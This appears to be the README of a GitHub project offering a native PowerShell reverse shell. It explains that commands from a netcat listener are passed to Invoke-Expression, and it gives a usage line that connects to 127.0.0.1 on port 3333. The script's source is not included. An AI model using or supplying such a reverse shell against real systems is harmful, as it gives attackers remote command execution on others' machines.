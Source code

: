 # PowerShell-Reverse-Shell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

# Usage:
./pwsh_revshell.ps1 


pwsh_revshell -ip 127.0.0.1 -port 3333
